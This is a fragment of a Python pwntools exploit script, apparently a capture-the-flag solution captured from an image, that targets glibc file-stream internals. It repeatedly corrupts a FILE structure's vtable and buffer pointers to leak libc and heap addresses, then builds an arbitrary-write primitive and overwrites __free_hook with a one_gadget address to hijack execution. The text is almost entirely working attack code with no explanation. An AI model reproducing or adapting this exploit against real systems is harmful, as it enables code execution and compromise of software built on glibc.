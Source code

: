 ```python
    fflush()

    log.info("called _IO_file_doallocate")

    overwrite(0xd8,0x60)
    fflush()

    log.info("called _IO_file_underflow")

    overwrite(0xd8,0xa0)
    overwrite(0x70,0x1)
    overwrite(0x20,0x90)
    overwrite(0x21,0x12)
    overwrite(0x10,0x90)
    overwrite(0x11,0x12)

    log.info("overwrite read_end,write_base")

    fflush()

    log.info("leak by _IO_new_file_sync")

    buf = io.recv(0x80)
    if len(buf) != 0x80:
        io.close()
        continue

    libc_base = u64(buf[0x78:0x80]) + 0x7f13af008000 - 0x7f13af1f55c0
    heap_base = u64(buf[0x18:0x20]) + 0x564653a51000 - 0x564653a5350f
    log.info(f'libc_base = {hex(libc_base)}')
    log.info(f'heap_base = {hex(heap_base)}')

    gdb.attach(io,'''
            b *main+121
            c
            set $foo = *((long *)$rsp + 1)
    ''')

    input()

    def AAW(addr,val):
        overwrite_word(0xd8,libc_base + 0x7f30d22140e0 - 0x7f30d202b000)
        overwrite_word(0xf0,addr)
        overwrite_word(0xf8,addr)
        overwrite_word(write_base,0)
        overwrite_word(write_ptr,val)
        fflush()

    free_hook = libc_base + 0x7f6822dbde48 - 0x7f6822bcf000
    one_gadget = libc_base + 0xe3b01

    AAW(free_hook,one_gadget)

    log.info('overwrite free_hook')

    IO_file_jumps = libc_base + 0x7fba711e64a0 - 0x7fba70ffd000

    overwrite_word(0xd8,IO_file_jumps - 0x50)
    overwrite_word(0x70,0xffffffffffffffff)

    log.info('prepared finish->free')

    fflush()
```